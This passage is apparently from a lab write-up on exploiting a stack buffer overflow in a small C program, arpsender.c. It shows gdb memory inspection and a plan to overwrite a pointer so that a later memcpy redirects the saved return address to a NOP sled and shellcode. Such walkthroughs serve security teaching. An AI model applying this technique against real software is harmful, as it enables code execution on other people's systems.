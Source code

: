 `GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE  0x4` this line indicated that the Stack is Read-Write and executable, so this defensive mechanism is disabled.

###### Determine the strategy to overwrite the `$eip` pointer
This are the lines/variables that will be used to exploit the program:
```
memcpy(hwaddr.addr, packet + ADDR_OFFSET, hwaddr.len);
memcpy(hwaddr.hwtype, packet, 4);

```
Let's explore the memory!

```
(gdb) break print_address
(gdb) run packet.txt
(gdb) x/x &i
0xbffff454:	0x0804834c
(gdb) x/x &hwaddr.len
0xbffff458:	0xb7ee25d0
(gdb) x/x &hwaddr.addr
0xbffff459:	0xf3b7ee25
(gdb) x/x &hwaddr.hwtype
0xbffff4dc:	0x00000000
(gdb) x/x &hwaddr.prototype
0xbffff4e0:	0xbffff598
(gdb) x/x &hwaddr.oper
0xbffff4e4:	0xb7ff59c0
(gdb) x/x &hwaddr.protolen
0xbffff4e8:	0x00000065
(gdb) info frame
Stack level 0, frame at 0xbffff500:
 eip = 0x804864e in print_address (arpsender.c:24); saved eip 0x80488c5
 called by frame at 0xbffff5a0
 source language c.
 Arglist at 0xbffff4f8, args: packet=0x804a008 "\324ò\241\002"
 Locals at 0xbffff4f8, Previous frame's sp is 0xbffff500
 Saved registers:
  ebp at 0xbffff4f8, eip at 0xbffff4fc
```
###### Sketch memory layout
<img src="https://raw.githubusercontent.com/igavriil/buffer-overflow/master/arpsender_sketch.png" width="300" height="440"/>
###### Deeper understand of memory and attack plan
* The distance between `char hwaddr.addr[128]` and `char* hwaddr.hwtype` is `131 bytes`(due to big endian convention)  so we need `135 bytes` overflow on `hwaddr.addr[128]` to overwrite the `4 bytes` of the pointer.
* The `$eip` pointer is located at `0xbffff4fc` under gdb environment.

___
* Overflow `hwaddr.addr[128]` buffer with `135 bytes` having the last `4 bytes` store the address of `$eip` pointer. In other words make the pointer `hwaddr.hwtype` pointer to point at the `$eip`.
* Then using the expression `memcpy(hwaddr.hwtype, packet, 4);` we are writing at the `$eip` pointer. So the variable `packet` should start with an address that points to a location of the memory where the beggining of the shellcode is stored or (better) at a location where a preceding to the shellcode `NOP(\x90)` is stored. 
